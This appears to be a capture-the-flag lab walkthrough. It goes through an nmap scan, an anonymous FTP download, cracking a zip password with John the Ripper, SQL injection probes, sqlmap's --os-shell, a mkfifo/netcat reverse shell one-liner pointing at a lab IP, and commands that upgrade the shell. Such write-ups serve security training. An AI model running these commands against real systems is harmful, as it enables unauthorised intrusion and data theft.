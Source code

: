 #Linux #FTP #SQL #SUID

**NMAP Scan**

```sh
  nmap -sV -sC -p- 10.129.17.227
  ```

* To see the versions of the services running (-sV)
* To perform a script scan using the default set of scripts (-sC)
* To scan all ports from 1 through 65535 (-p-)

Open Ports

21/tcp open  ftp     vsftpd 3.0.3

22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

![image](https://user-images.githubusercontent.com/99097743/169863478-0bfbc6c9-0ec3-49bf-a48e-13fdbe28576a.png)

**FTP**

Nmap scan highlights that **anonymous FTP login is allowed**

We are able to download the **backup.zip**

![image](https://user-images.githubusercontent.com/99097743/169863972-2e3d4672-6476-4db9-a294-0e3977a458df.png)

We have a situation here, what is the password of the zip file?

![image](https://user-images.githubusercontent.com/99097743/169865265-8d628052-84c0-4743-880b-7b51031655c9.png)

No worries, John the Ripper to rescue!

https://github.com/openwall/john

John the Ripper jumbo - advanced offline password cracker, which supports hundreds of hash and cipher types, and runs on many operating systems, CPUs, GPUs, and even some FPGAs

Here are the steps:


1. Generate the hash of the zipfile and save it as hash

```sh
zip2john backup.zip > hash
```

2. Use **John** to crack the password using commonly used words (rock.txt). If the password does not show up on the terminal, you can see the password in jonh.pot

```sh
john -w=/usr/share/wordlists/rockyou.txt hash
```

Thanks John! We can now unzip the **backup.zip**

* index.php  --> there is a username:password pair with MD5 hash: You can use one of the free services for Decrypt & Encrypt MD5
* style.css

Using the credentials we can log in to the Car Catalogue

![image](https://user-images.githubusercontent.com/99097743/169875305-9ca24fb3-ecf4-4df9-bf70-96ca635e8de5.png)


**SQL Injection**

* If you try a single quote (') inside the search box --> ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^
* If you try ' OR '1' = '1  --> No ERROR message: brings all cars as 1=1 always!


Let's use the **sqlmap** for this lab. 

https://github.com/sqlmapproject/sqlmap.git

Automatic SQL injection and database takeover tool

![image](https://user-images.githubusercontent.com/99097743/169881600-07143523-6f87-4718-8a3c-f4e193bf331a.png)

Here are the steps:


1. Capture the GET file of a sample search with BurpSuite as **new.req**

![image](https://user-images.githubusercontent.com/99097743/169882864-38319cd4-af40-4ee0-b1c7-f196263b2886.png)


2. Run the **sqlmap** tool

```sh
sqlmap -r new.req
```
* -r means REQUESTFILE: Load HTTP request from a file

![image](https://user-images.githubusercontent.com/99097743/169883168-7c07a0ba-86fd-4f12-afeb-2c924713107e.png)

3. Run the **--os-shell** command

```sh
sqlmap -r new.req --os-shell
```
* --os-shell means prompt for an interactive operating system shell
*  If asked "Do you want to retrieve the command standard output? [Y/n/a]" --> Click a = ALWAYS

4. Do not forget to active the listener

![image](https://user-images.githubusercontent.com/99097743/169885449-68625d07-68cc-4ef4-9b7c-2d9099f73384.png)

5. Get the reverse shell payload, revshells.com can help us here, we can try **mkfifo**

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.26 87 >/tmp/f
```

![image](https://user-images.githubusercontent.com/99097743/169886969-48f93363-4338-43c0-ab9b-5120fedddf3e.png)

6. We can improve the shell and make it fully interactive using the following commands

```sh
python3 -c 'import pty;pty.spawn("/bin/bash");'
stty raw -echo
fg
export TERM=xterm
```
It worked!

![image](https://user-images.githubusercontent.com/99097743/169887719-ad875cea-7937-4477-8af5-66954b722d72.png)

We can now capture the user flag!

![image](https://user-images.githubusercontent.com/99097743/169891271-24ed9ae1-def0-48b2-b89f-c0c244f61f64.png)
